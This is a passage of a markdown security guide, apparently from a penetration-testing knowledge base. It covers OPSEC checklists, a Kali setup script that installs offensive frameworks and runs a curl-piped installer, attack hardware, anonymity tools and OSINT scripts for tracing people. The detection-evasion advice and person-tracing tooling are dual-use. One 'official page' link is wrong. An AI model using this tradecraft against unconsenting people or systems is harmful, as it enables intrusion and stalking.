# ENHANCED CYBERSECURITY MASTER GUIDE

> [!CAUTION]
> **Authorized use only.** The techniques below are for authorized security
> testing, education, and defensive research. Using them against systems you do
> not own or lack explicit written permission to test is illegal. See
> [LEGAL.md](LEGAL.md).

## Incorporating PNWC Internal Knowledge Base & Guides + 70+ Professional Books

*This enhanced guide combines:*
- ✅ Over 70+ Professional Cybersecurity Books
- ✅ Pacific NW Computers' Knowledge Base (20-Years First Hand Experience)
- ✅ Custom Scripts & Tools
- ✅ Playbooks & Operational Procedures
- ✅ Real-World Attack Case Studies

---

**Additional current research and lab references:** [Curated Github security ecosystems](Documentation/awesome-hacking-collections-integration.md) · [Proxmox IDS packet visibility](Homelab/proxmox-security-monitoring-visibility.md).

**Featured PNWC Field Project:** [Cyberdeck Public Reference](Cyberdeck/README.md) · [Complete Documentation Index](DOCUMENTATION_INDEX.md). Explore [hardware and network topology](Cyberdeck/docs/ARCHITECTURE.md), [field methods](Cyberdeck/docs/ASSESSMENT_WORKFLOW.md) and [current feature limitations](Cyberdeck/docs/HARDWARE_AND_STATUS.md). This is distinct from the private operator console.


# TABLE OF CONTENTS - ENHANCED EDITION

**[OPERATIONAL SECURITY & SETUP](#part-2-operational-security--setup)**

1. [OPSEC Fundamentals](#opsec-fundamentals)
2. [Virtual Machine Setup](#virtual-machine-setup)
3. [Hardware & Device Arsenal](#hardware--device-arsenal)
4. [Anonymity & Privacy Protection](#anonymity--privacy-protection)

**[OSINT MASTERY](#osint-mastery)**

> [!NOTE]
> **Canonical reference:** the dedicated, maintained OSINT section is
> [OSINT/](OSINT/README.md) (tools catalog, cheat sheet, per-platform guides,
> investigator playbook). Keep major OSINT updates there; this is an embedded
> summary.

5. [Comprehensive OSINT Resources](#comprehensive-osint-resources)
6. [OSINT Virtual Machines](#osint-vm-setup)
7. [OSINT Tools & Software](#part-3-osint-tools--software)
8. [People Search & Identity Tracing](#people-search--identity-tracing)
9. [Username & Email OSINT](#username-osint)
10. [Phone Number Investigation](#phone-number-investigation)
11. [Geolocation & Mapping](#geolocation--mapping)
12. [Image & Metadata Analysis](#image--metadata-analysis)

**[REAL-WORLD ATTACK CASE STUDIES](#real-world-attack-case-studies)**

13. [Stuxnet Analysis](#stuxnet-analysis)
14. [WannaCry Breakdown](#wannacry-breakdown)
15. [EternalBlue Exploitation](#eternalblue-exploitation)
16. [SolarWinds Attack](#solarwinds-attack)
17. [Carbanak APT Campaign](#carbanak-apt-campaign)
18. [NotPetya Ransomware](#notpetya-ransomware)
19. [Edward Snowden Revelations](#edward-snowden-revelations)

**[TEAM PLAYBOOKS](#team-playbooks)**

20. [Purple Team Playbook (Simple)](#purple-team-playbook-simple)
21. [Purple Team Playbook (Detailed)](#purple-team-playbook-detailed)
22. [Blue Team Playbook (Generic)](#blue-team-playbook-generic)
23. [Blue Team Playbook (Detailed)](#blue-team-playbook-detailed)
24. [Detection Rule Pipelines](#detection-rule-pipelines)
25. [SIEM Ingestion](#siem-ingestion)

**[CUSTOM SCRIPTS & AUTOMATION](#custom-scripts--automation)**

26. [Black Hat Bash Lab Build](#black-hat-bash-lab-build)
27. [Network Automation Scripts](#network-automation-scripts)
28. [System Administration Scripts](#system-administration-scripts)
29. [Python Security Toolkits](#python-security-toolkits)
30. [PowerShell Security Tools](#powershell-security-tools)

**[Current operational workflows (November 2026)](#current-operational-module-map-november-2026)**

**[OPERATIONAL TRADECRAFT](#part-6-operational-tradecraft)**

31. [Tradecraft Overview & Index](#tradecraft-overview)
32. [C2 Frameworks - Cobalt Strike, Sliver, Havoc](#c2-frameworks)
33. [AV/EDR Evasion - Recognition & Defense](#avedr-evasion---recognition--defense)
34. [Living Off the Land - LOLBins & LOLBAs](#living-off-the-land---lolbins--lolbas)
35. [OSINT & Threat Intelligence](#osint--threat-intelligence)
36. [Network Detection & Packet Analysis](#network-detection--packet-analysis)
37. [Active Directory - Attacks & Defense](#active-directory---attacks--defense)
38. [Analysis Environments (FLARE VM / REMnux)](#analysis-environments)
---

## 🎯 Purpose
Everything in [ultimate_cybersecurity_master_guide.md](ultimate_cybersecurity_master_guide.md) plus PNWC's 20-years-first-hand operational knowledge layered in - OPSEC procedures, OSINT investigation tradecraft, real-world attack case studies, field-tested playbooks, and custom automation scripts that come from actual engagements rather than published books.

## ⚙️ Function
6 parts: Operational Security & Setup (OPSEC, VMs, anonymity), OSINT Mastery (people search, username/email/phone investigation, geolocation, metadata analysis), Real-World Attack Case Studies (Stuxnet through Snowden), Team Playbooks (Purple/Blue Team, detection pipelines, SIEM), Custom Scripts & Automation, and Operational Tradecraft (which links out to the dedicated [Tradecraft/](Tradecraft/README.md) folder for C2/evasion/LOLBins/AD-attack depth). Differs from [ultimate_cybersecurity_master_guide.md](ultimate_cybersecurity_master_guide.md) by adding the operational/field layer on top of the book-derived lifecycle content; differs from [SPECIALIZED_TOPICS_GUIDE.md](SPECIALIZED_TOPICS_GUIDE.md), which covers emerging technical domains (AI, hardware, SDR, space) rather than operational tradecraft.

## 🏆 Goal
A reader can run a full OSINT investigation, execute an OPSEC-compliant engagement, and reference real incident case studies for lessons learned - all grounded in field-tested procedure, not just textbook theory.

## 📋 When to Use
When you need PNWC's actual operational procedure (not just book theory) for OPSEC, OSINT, playbooks, or case-study analysis, or as the bridge between the foundational master guide and the dedicated Tradecraft/ folder.


## Current Operational Module Map (November 2026)

The chapters below preserve the original PNWC operational knowledge. The live repository now has additional, dedicated procedures that should be used **instead of copying older commands out of this long-form overview**. The paths below join the scope, fieldwork, telemetry, evidence, and reporting stages while leaving each technical procedure in its maintained home.

| Engagement stage | Maintained guides and checkpoints |
| --- | --- |
| Portable Cyberdeck field platform | [PNWC Cyberdeck reference](Cyberdeck/README.md) → [GL.iNet/MikroTik architecture](Cyberdeck/docs/ARCHITECTURE.md) → [assessment workflow](Cyberdeck/docs/ASSESSMENT_WORKFLOW.md) → [evidence guidance](Cyberdeck/docs/EVIDENCE_AND_PRIVACY.md). No production automation is claimed. |
| 1. Authorization and preflight | Start with the [network and wireless audit playbook](PlayBooks/NetworkAuditPlayBook.md), [security assessment checklists](Checklists/README.md), and [legal-use terms](LEGAL.md). Record customer written permission, assets, dates, excluded systems, stop conditions, contacts, and reporting obligations **before** active testing. |
| 2. Workstation and operator safety | Select an environment via [OPSEC](OPSEC/README.md), [Tails](OPSEC/tails-usb-setup-guide.md), [Whonix/Kicksecure](OPSEC/whonix-kicksecure-usb-guide.md), and [portable uConsole setup](uConsole/README.md). Keep customer data and credentials separated by engagement. |
| 3. OSINT and initial exposure review | Follow the [OSINT investigator playbook](OSINT/Playbook/README.md), [Tsurugi OSINT](OSINT/TSURUGI_LINUX_OSINT_GUIDE.md), and [domain/IP reconnaissance reference](OSINT/scripts/Domain_IP_Recon.md). Preserve provenance and account for permissible collection. |
| 4. Field network and wireless survey | Use the [wardriving index](Wardriving/README.md), [SigRoam and Scout Lite](Wardriving/sigroam-scout-lite.md), [ESP32 Marauder](Wardriving/esp32-marauder.md), [Kismet survey reference](Wardriving/kismet.md), and [collection/retention rules](Wardriving/data-handling.md). Surveys must remain within agreed boundaries. |
| 5. Packet analysis and intrusion telemetry | Begin with [Wireshark validated filters](Documentation/wireshark-master-filters.md), [IDS/IPS comparison](IncidentResponse/IDS%26IPS/readme.md), [Kismet + Wazuh deauthentication lab](IncidentResponse/IDS%26IPS/kismet-wazuh-wireless-lab.md), [nzyme + Wazuh](IncidentResponse/IDS%26IPS/nzyme-wazuh-integration.md), and [Wazuh SIEM](IncidentResponse/SIEM/wazuh.md). Validate sensor visibility and alert false positives. |
| 6. Lab deception and detection exercises | Deploy only in an isolated, authorized test segment: [honeypot overview](IncidentResponse/HoneyPot/readme.md), [Raspberry Pi lab](IncidentResponse/HoneyPot/raspberry-pi-honeypot-lab.md), [ESP32-S3 option](IncidentResponse/HoneyPot/esp32-s3-honeypots.md), [Proxmox honeynet](IncidentResponse/HoneyPot/proxmox-vm-honeynet.md), and [Wazuh integration](IncidentResponse/HoneyPot/wazuh-honeypot-integration.md). |
| 7. Incident response and forensics | Correlate logs with the [incident response index](IncidentResponse/README.md) and [forensic handling guide](IncidentResponse/Digital-Forensics/README.md); use [Tsurugi Bento portable DFIR](IncidentResponse/Digital-Forensics/tsurugi-bento-portable-dfir-guide.md), [REMnux malware analysis](ReverseEngineering/remnux-malware-analysis-guide.md), and [Volatility memory reference](IncidentResponse/Digital-Forensics/Memory/volatility_cheatsheet.md) as applicable. |
| 8. Findings, remediation, and delivery | Tie evidence to business impact with [team playbooks](PlayBooks/README.md), [hardening checklists](Checklists/README.md), [compliance frameworks](Compliance/README.md), and [data-pipeline observability](Data-Engineering/Phase3/pipeline_observability.md). Verify each finding before reporting and include clear retest criteria. |

### Privacy, Authentication and Retention During Client Work

These references fill gaps between an engagement's collection and handoff phases: [FIDO2/passkeys and recovery-key policy](Cryptography/security-keys-passkeys.md), [SoloKeys](Cryptography/solokeys-guide.md), [encrypted storage](Cryptography/encrypted-storage.md), and the [PhantomDrive **research-only** guide](Cryptography/phantomdrive-guide.md). Security keys authenticate identities; they do not automatically encrypt an arbitrary drive.

For sensitive sources and seized or lost devices, use the [journalist/source-protection overview](OPSEC/press-freedom/README.md), [device/network protection](OPSEC/press-freedom/device-network-protection.md), [data retention and removal](OPSEC/press-freedom/data-retention-removal.md), and [duress and seizure planning](OPSEC/press-freedom/duress-seizure-response.md). Protect lawful evidence and respect preservation requirements; do not promise guaranteed deletion or resistance to coercion.

**Maintenance note (November 2, 2026):** The paths above have been checked against the current repository. These are navigation and workflow updates, **not** a claim that every historical tool command, provider tier, or OS version embedded elsewhere in this large guide was retested.

# PART 2: OPERATIONAL SECURITY & SETUP

## OPSEC Fundamentals

### Critical OPSEC Rules (From Your Notion)

**ALWAYS USE:**
- ✅ 3rd Party Network for Operations
- ✅ No-Logging VPN or Proxy
- ✅ Virtual Machine (NEVER bare metal!)
- ✅ Compartmentalized environments
- ✅ Clean snapshots between engagements

**NEVER:**
- ❌ Use personal/corporate networks for OPs
- ❌ Run security tools on bare metal
- ❌ Mix personal and operational identities
- ❌ Reuse infrastructure across engagements
- ❌ Leave traces on physical systems

### OPSEC Layers

```
Layer 1: Physical Security
├── Secure location
├── No surveillance cameras
├── Faraday cage (if needed)
└── Secure hardware disposal

Layer 2: Network Security
├── VPN (Mullvad, ProtonVPN)
├── Tor for additional anonymity
├── Third-party networks (coffee shops, public WiFi)
└── MAC address randomization

Layer 3: Virtual Security
├── Dedicated VM per operation
├── Snapshot before and after
├── No clipboard sharing with host
└── Network isolation

Layer 4: Identity Security
├── Separate personas
├── Burner accounts
├── Anonymous payment methods
└── No PII linkage

Layer 5: Data Security
├── Encrypted storage (VeraCrypt)
├── Secure deletion (shred, srm)
├── No cloud sync
└── Air-gapped backups
```

### OPSEC Checklist

**Before Every Operation:**
- [ ] VM snapshot created
- [ ] VPN connected and verified
- [ ] No personal accounts logged in
- [ ] Tor configured (if needed)
- [ ] MAC address randomized
- [ ] GPS disabled on devices
- [ ] Metadata stripping tools ready
- [ ] Communication channels secured
- [ ] Emergency wipe procedures ready

**During Operation:**
- [ ] Minimize digital footprint
- [ ] Use throwaway accounts only
- [ ] No identifying information shared
- [ ] Document everything in secured notes
- [ ] Maintain cover story
- [ ] Monitor for detection

**After Operation:**
- [ ] Wipe VM or restore snapshot
- [ ] Delete temporary files
- [ ] Clear browser history/cookies
- [ ] Verify no traces left
- [ ] Archive findings securely
- [ ] Burn accounts if compromised

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Virtual Machine Setup

### Recommended Operating Systems (From Your Notion)

#### For Offensive Security:

- **Kali Linux** - Primary offensive OS
  Official download page (always current release, checksums, mirrors): https://www.kali.org/get-kali/

- **BlackArch** - Alternative with 2800+ tools, based on Arch Linux
  Official downloads page (Full/Slim/Netinstall ISO, OVA, mirrors, checksums): https://blackarch.org/downloads.html

- **Parrot Security OS** - Lightweight alternative to Kali
  Official download page: https://parrotsec.org/download/

#### For OSINT Investigations:

- **IntelTechniques OSINT VM** (formerly "Buscador")
  Custom Debian/Ubuntu build with pre-configured OSINT tools, maintained by Michael Bazzell/David Westcott.
  Official page: https://www.kali.org/get-kali/
  Follow the setup instructions on that page directly - don't hardcode credentials into install URLs; they end up in shell history and logs.

- **Trace Labs OSINT VM**
  Official GitHub Releases (OVA downloads + SHA256 checksums): https://github.com/tracelabs/tlosint-vm/releases

#### For General Purpose:
- **Debian** - Stable, security-focused
- **Ubuntu LTS** - User-friendly, well-supported
- **Tails** - For maximum anonymity
- **Whonix** - Workstation traffic through its separate Gateway and Tor; host applications are outside this routing. See [deployment guidance](OPSEC/whonix-kicksecure-usb-guide.md).

### Pimp My Kali Script

```bash
#!/bin/bash
# Enhanced Kali Linux setup script

echo "[*] Updating system..."
apt update && apt upgrade -y
apt dist-upgrade -y

echo "[*] Installing essential tools..."
apt install -y \
    git curl wget \
    python3-pip \
    golang \
    docker.io \
    virtualenv \
    terminator \
    tmux \
    vim \
    burpsuite \
    metasploit-framework \
    nmap \
    wireshark \
    john \
    hashcat \
    hydra \
    sqlmap \
    nikto \
    dirb \
    gobuster \
    wfuzz \
    ffuf \
    amass \
    subfinder \
    nuclei \
    bloodhound \
    neo4j \
    crackmapexec \
    evil-winrm \
    responder \
    impacket-scripts \
    powershell-empire \
    covenant \
    chisel \
    ligolo-ng

echo "[*] Installing Python tools..."
pip3 install \
    impacket \
    ldap3 \
    pwntools \
    ropper \
    keystone-engine \
    unicorn \
    capstone \
    scapy \
    requests \
    beautifulsoup4 \
    selenium

echo "[*] Installing Go tools..."
go install github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
go install github.com/projectdiscovery/httpx/v2/cmd/httpx@latest
go install github.com/tomnomnom/waybackurls@latest

echo "[*] Setting up directories..."
mkdir -p ~/tools
mkdir -p ~/wordlists
mkdir -p ~/engagements
mkdir -p ~/scripts

echo "[*] Downloading wordlists..."
cd ~/wordlists
wget https://github.com/danielmiessler/SecLists/archive/master.zip
unzip master.zip
rm master.zip

echo "[*] Installing custom tools..."
cd ~/tools

# Install LinPEAS and WinPEAS
git clone https://github.com/peass-ng/PEASS-ng.git

# Install PowerSploit
git clone https://github.com/PowerShellMafia/PowerSploit.git

# Install Nishang
git clone https://github.com/samratashok/nishang.git

# Install privilege escalation awesome scripts (Now merged into PEASS-ng)
git clone https://github.com/peass-ng/PEASS-ng.git

# Install PayloadsAllTheThings
git clone https://github.com/swisskyrepo/PayloadsAllTheThings.git

echo "[*] Configuring Metasploit..."
msfdb init
systemctl enable postgresql
systemctl start postgresql

echo "[*] Configuring VIM..."
cat > ~/.vimrc << 'VIMRC'
syntax on
set number
set tabstop=4
set shiftwidth=4
set expandtab
set autoindent
VIMRC

echo "[*] Configuring Bash aliases..."
cat >> ~/.bashrc << 'ALIASES'

# Custom aliases
alias ll='ls -alh'
alias update='sudo apt update && sudo apt upgrade -y'
alias ports='netstat -tulanp'
alias myip='curl ifconfig.me'
alias serve='python3 -m http.server 8000'

# Pentesting shortcuts
alias nse='ls /usr/share/nmap/scripts/'
alias web='cd ~/engagements/web'
alias network='cd ~/engagements/network'
alias ad='cd ~/engagements/activedirectory'
ALIASES

echo "[*] Installing Oh My Zsh..."
sh -c "$(curl -fsSL https://raw.github.com/ohmyzsh/ohmyzsh/master/tools/install.sh)"

echo "[+] Kali setup complete!"
echo "[+] Reboot recommended"
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Hardware & Device Arsenal

### Essential Hardware (From Your Notion)

#### All-In-One (AIO) Devices
```
FlipperZero
├── RFID/NFC cloning
├── Sub-GHz radio
├── IR transmitter
├── BadUSB
├── GPIO for hardware hacking
└── U2F authentication

WiFi Pineapple (Hak5)
├── Rogue AP creation
├── Man-in-the-middle
├── Credential harvesting
├── Deauth attacks
└── Network reconnaissance
```

#### Network Devices
- **WiFi Pineapple** - Rogue access point
- **LAN Turtle** - Network implant
- **Packet Squirrel** - Packet capture device
- **Shark Jack** - Network reconnaissance
- **ThrowingStars** - LAN tap

#### RF Devices
- **HackRF One** - Software Defined Radio
- **RTL-SDR** - Cheap SDR receiver
- **Ubertooth One** - Bluetooth sniffing
- **YardStick One** - Sub-GHz transceiver
- **Proxmark3** - RFID/NFC research

#### USB Devices
- **Rubber Ducky** - Keystroke injection
- **Bash Bunny** - Multi-function attack tool
- **O.MG Cable** - Malicious USB cable
- **USB Killer** - Hardware destruction device

#### WiFi & Network Devices
- **Alfa AWUS036ACH** - High-power WiFi adapter
- **TP-Link TL-WN722N** - Monitor mode WiFi
- **Panda PAU09** - Budget WiFi adapter

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Anonymity & Privacy Protection

### VPN Setup (No-Logging Providers)

#### Recommended VPNs:
1. **Mullvad VPN**
   - Anonymous signup (no email required)
   - Accept cryptocurrency
   - Open source clients
   - No logs policy

```bash
# Install Mullvad on Linux
wget https://mullvad.net/download/app/deb/latest
sudo apt install ./mullvad-vpn_*_amd64.deb

# Connect
mullvad connect

# Check status
mullvad status
```

2. **ProtonVPN**
   - Based in Switzerland
   - Secure Core servers
   - Free tier available

3. **IVPN**
   - Anonymous accounts
   - Multi-hop connections
   - Open source

### Tor Setup

```bash
# Install Tor
apt install tor torbrowser-launcher

# Configure Tor system-wide
cat >> /etc/tor/torrc << 'TORRC'
SOCKSPort 9050
ControlPort 9051
CookieAuthentication 1
TORRC

# Start Tor service
systemctl start tor
systemctl enable tor

# Use proxychains with Tor
echo "socks5 127.0.0.1 9050" >> /etc/proxychains4.conf

# Test
proxychains4 curl https://check.torproject.org/api/ip
```

### MAC Address Randomization

```bash
#!/bin/bash
# Randomize MAC address

INTERFACE="wlan0"  # Change to your interface

# Take interface down
ip link set dev $INTERFACE down

# Generate random MAC
NEW_MAC=$(openssl rand -hex 6 | sed 's/\(..\)/\1:/g; s/.$//')

# Set new MAC
ip link set dev $INTERFACE address $NEW_MAC

# Bring interface up
ip link set dev $INTERFACE up

echo "[+] MAC address changed to: $NEW_MAC"
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

# OSINT MASTERY

## Comprehensive OSINT Resources

### OSINT Methodology (From Your Notion)

```
Phase 1: Requirement Definition
└── What information do we need?
    ├── Person identification
    ├── Infrastructure mapping
    ├── Organizational structure
    └── Digital footprint

Phase 2: Collection
└── Passive information gathering
    ├── Search engines
    ├── Social media
    ├── Public records
    └── Domain/IP intelligence

Phase 3: Processing
└── Organize and structure data
    ├── Timeline creation
    ├── Relationship mapping
    ├── Data validation
    └── Pattern identification

Phase 4: Analysis
└── Extract meaningful intelligence
    ├── Link analysis
    ├── Geospatial analysis
    ├── Network analysis
    └── Behavioral patterns

Phase 5: Dissemination
└── Present findings
    ├── Executive summary
    ├── Detailed report
    ├── Visual diagrams (Maltego)
    └── Actionable intelligence
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## OSINT VM Setup

```bash
#!/bin/bash
# Automated OSINT VM Setup

echo "[*] Installing OSINT tools..."

# Base tools
apt install -y \
    python3-pip \
    git \
    tor \
    torbrowser-launcher \
    exiftool \
    ffmpeg \
    tesseract-ocr \
    httrack \
    whois \
    dnsutils \
    curl \
    wget

# Python OSINT tools
pip3 install \
    theHarvester \
    sherlock-project \
    holehe \
    h8mail \
    phoneinfoga \
    toutatis \
    ghunt \
    socialscan \
    maigret \
    twint \
    instaloader

# Install Maltego Community Edition
wget https://maltego-downloads.s3.us-east-2.amazonaws.com/linux/Maltego.v4.X.X_linux.zip
unzip Maltego.v4.X.X_linux.zip
sudo ./install.sh

# Install SpiderFoot
git clone https://github.com/smicallef/spiderfoot.git
cd spiderfoot
pip3 install -r requirements.txt

# Install Recon-ng
git clone https://github.com/lanmaster53/recon-ng.git
cd recon-ng
pip3 install -r REQUIREMENTS

# Install OSRFramework
pip3 install osrframework

# Install Photon
git clone https://github.com/s0md3v/Photon.git
cd Photon
pip3 install -r requirements.txt

# Install subfinder
go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest

# Install Amass
go install github.com/owasp-amass/amass/v4/...@latest

echo "[+] OSINT VM setup complete!"
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## PART 3: OSINT Tools & Software

### Essential OSINT Tools

#### Search Engines & Aggregators
```bash
# Google Dorking
site:target.com filetype:pdf
site:target.com intitle:"index of"
site:target.com inurl:admin

# Shodan
shodan search "org:Company Name"
shodan search "hostname:domain.com"

# Censys
# Search via censys.io web interface
```

#### Domain & IP Intelligence
```bash
# Whois lookup
whois domain.com

# DNS enumeration
dig domain.com ANY
host -t mx domain.com
nslookup domain.com

# Subdomain enumeration
subfinder -d domain.com
amass enum -d domain.com
```

#### Social Media Intelligence
```bash
# Sherlock - username search across platforms
sherlock username

# Maigret - enhanced username search
maigret username

# Twint - Twitter OSINT (NOTE: archived/non-functional since X's 2023 API lockdown)
twint -u username --timeline

# Instagram loader
instaloader profile username
```
---
> 📁 **Extended Reference:** [OSINT & Threat Intelligence Tradecraft](Tradecraft/osint-threat-intel.md)
>
> Covers the full OSINT methodology cycle, Maltego/SpiderFoot/Recon-ng on Windows and Linux,
> Shodan/Censys CLI, amass, trufflehog, dnstwist, MISP/OpenCTI threat intel platforms,
> IOC lifecycle and STIX/TAXII, dark web monitoring, and investigator OPSEC architecture.
> Includes platform-by-platform install commands for every major tool.
 
---

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## People Search & Identity Tracing

### Primary Resources (From Your Notion):

```python
#!/usr/bin/env python3
# people_search.py - Automated people search

import requests
from bs4 import BeautifulSoup
import json

SEARCH_ENGINES = {
    'pipl': 'https://pipl.com',
    'spokeo': 'https://www.spokeo.com',
    'truepeoplesearch': 'https://www.truepeoplesearch.com',
    'whitepages': 'https://www.whitepages.com',
    'fastpeoplesearch': 'https://www.fastpeoplesearch.com',
}

def search_person(name, location=None):
    """Search for person across multiple databases"""
    results = {}
    
    for engine, url in SEARCH_ENGINES.items():
        print(f"[*] Searching {engine}...")
        try:
            # Implement search logic per site
            # Note: Many sites require manual access or paid APIs
            results[engine] = search_engine(engine, name, location)
        except Exception as e:
            print(f"[-] Error with {engine}: {e}")
    
    return results

def generate_report(results, output_file='person_report.html'):
    """Generate HTML report of findings"""
    html = f"""
    <html>
    <head><title>Person Search Report</title></head>
    <body>
    <h1>Person Search Results</h1>
    <h2>Target: {results['name']}</h2>
    """
    
    for engine, data in results['searches'].items():
        html += f"<h3>{engine}</h3>"
        html += f"<pre>{json.dumps(data, indent=2)}</pre>"
    
    html += "</body></html>"
    
    with open(output_file, 'w') as f:
        f.write(html)
    
    print(f"[+] Report saved to {output_file}")

# Example usage
if __name__ == "__main__":
    target_name = "John Doe"
    target_location = "New York, NY"
    
    results = search_person(target_name, target_location)
    generate_report(results)
```

### People Search Websites
- **TruePeopleSearch** - Free people search
- **FastPeopleSearch** - Address and phone lookup
- **Spokeo** - Comprehensive people search
- **Whitepages** - Classic directory service
- **BeenVerified** - Background checks
- **Intelius** - Public records search

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Username OSINT

```bash
#!/bin/bash
# username_osint.sh - Search username across platforms

USERNAME=$1

if [ -z "$USERNAME" ]; then
    echo "Usage: $0 <username>"
    exit 1
fi

echo "[*] Searching for username: $USERNAME"

# Sherlock - username search
echo "[*] Running Sherlock..."
python3 ~/tools/sherlock/sherlock $USERNAME

# WhatsMyName
echo "[*] Running WhatsMyName..."
python3 ~/tools/whatsmyname/whatsmyname.py -u $USERNAME

# Maigret
echo "[*] Running Maigret..."
maigret $USERNAME

# Social Searcher
echo "[*] Checking Social Searcher..."
curl "https://www.social-searcher.com/search-users/?q=$USERNAME"

# Namechk
echo "[*] Checking Namechk..."
curl "https://namechk.com/$USERNAME"

echo "[+] Username OSINT complete!"
```

### Email OSINT Tools

```bash
# H8mail - email breach search
h8mail -t target@email.com

# Holehe - check email on sites
holehe target@email.com

# theHarvester - email harvesting
theHarvester -d domain.com -b google

# Hunter.io
# Web-based email finder
# hunter.io

# EmailRep
curl https://emailrep.io/target@email.com
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Phone Number Investigation

### Phone Number OSINT Tools

```bash
# PhoneInfoga
phoneinfoga scan -n +12345678900

# Truecaller (web-based)
# truecaller.com

# Manual carrier lookup
curl "https://free-lookup.net/phone-number/+12345678900"
```

### Phone Number Validators
```python
#!/usr/bin/env python3
# phone_validator.py

import phonenumbers
from phonenumbers import geocoder, carrier, timezone

def validate_phone(number):
    """Validate and get information about phone number"""
    try:
        parsed = phonenumbers.parse(number, None)
        
        print(f"Valid: {phonenumbers.is_valid_number(parsed)}")
        print(f"Possible: {phonenumbers.is_possible_number(parsed)}")
        print(f"Country: {geocoder.description_for_number(parsed, 'en')}")
        print(f"Carrier: {carrier.name_for_number(parsed, 'en')}")
        print(f"Timezone: {timezone.time_zones_for_number(parsed)}")
        print(f"Number Type: {phonenumbers.number_type(parsed)}")
        
    except phonenumbers.phonenumberutil.NumberParseException:
        print("Invalid phone number format")

# Example
validate_phone("+12345678900")
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Geolocation & Mapping

### Geolocation Tools

```bash
# IP geolocation
curl "https://ipinfo.io/8.8.8.8"

# GeoIP lookup
geoiplookup 8.8.8.8

# MaxMind GeoIP
# Download database from maxmind.com
```

### Mapping & Visualization
```python
#!/usr/bin/env python3
# geomap.py - Create map visualization

import folium
from geopy.geocoders import Nominatim

def create_map(locations, output_file='map.html'):
    """Create interactive map with markers"""
    
    # Initialize map
    m = folium.Map(location=[0, 0], zoom_start=2)
    
    geolocator = Nominatim(user_agent="osint_tool")
    
    for loc in locations:
        try:
            location = geolocator.geocode(loc['address'])
            if location:
                folium.Marker(
                    [location.latitude, location.longitude],
                    popup=loc['name'],
                    tooltip=loc['address']
                ).add_to(m)
        except:
            print(f"Could not geocode: {loc['address']}")
    
    m.save(output_file)
    print(f"[+] Map saved to {output_file}")

# Example usage
locations = [
    {'name': 'Target 1', 'address': 'New York, NY'},
    {'name': 'Target 2', 'address': 'Los Angeles, CA'},
]

create_map(locations)
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Image & Metadata Analysis

### Exif Data Extraction

```bash
# Extract EXIF data
exiftool image.jpg

# Extract GPS coordinates
exiftool -GPS* image.jpg

# Remove all metadata
exiftool -all= image.jpg

# Batch processing
exiftool -r -GPS* /path/to/images/
```

### Reverse Image Search

```bash
#!/bin/bash
# reverse_image_search.sh

IMAGE=$1

if [ -z "$IMAGE" ]; then
    echo "Usage: $0 <image_file>"
    exit 1
fi

echo "[*] Performing reverse image search..."

# Google Images
echo "[*] Google Images:"
echo "https://www.google.com/searchbyimage?image_url=$IMAGE"

# TinEye
echo "[*] TinEye:"
echo "https://tineye.com/search?url=$IMAGE"

# Yandex
echo "[*] Yandex:"
echo "https://yandex.com/images/search?rpt=imageview&url=$IMAGE"

# Bing
echo "[*] Bing:"
echo "https://www.bing.com/images/search?view=detailv2&iss=sbi&form=SBIIDP&q=imgurl:$IMAGE"
```

### Image Forensics

```python
#!/usr/bin/env python3
# image_forensics.py

from PIL import Image
from PIL.ExifTags import TAGS
import hashlib

def analyze_image(image_path):
    """Extract forensic data from image"""
    
    img = Image.open(image_path)
    
    print(f"[*] Image: {image_path}")
    print(f"Format: {img.format}")
    print(f"Size: {img.size}")
    print(f"Mode: {img.mode}")
    
    # Calculate hashes
    with open(image_path, 'rb') as f:
        data = f.read()
        print(f"MD5: {hashlib.md5(data).hexdigest()}")
        print(f"SHA256: {hashlib.sha256(data).hexdigest()}")
    
    # Extract EXIF
    exif = img._getexif()
    if exif:
        print("\n[*] EXIF Data:")
        for tag_id, value in exif.items():
            tag = TAGS.get(tag_id, tag_id)
            print(f"{tag}: {value}")
    
    # Check for steganography indicators
    print("\n[*] Checking for anomalies...")
    # Add steganography detection logic here

# Example
analyze_image("suspicious_image.jpg")
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

# REAL-WORLD ATTACK CASE STUDIES

| Resource | Description |
|---|---|
| [Case Studies Index](./CaseStudies/README.md) | Historical incident references and hardware research, with links to related defensive guides |

## Stuxnet Analysis

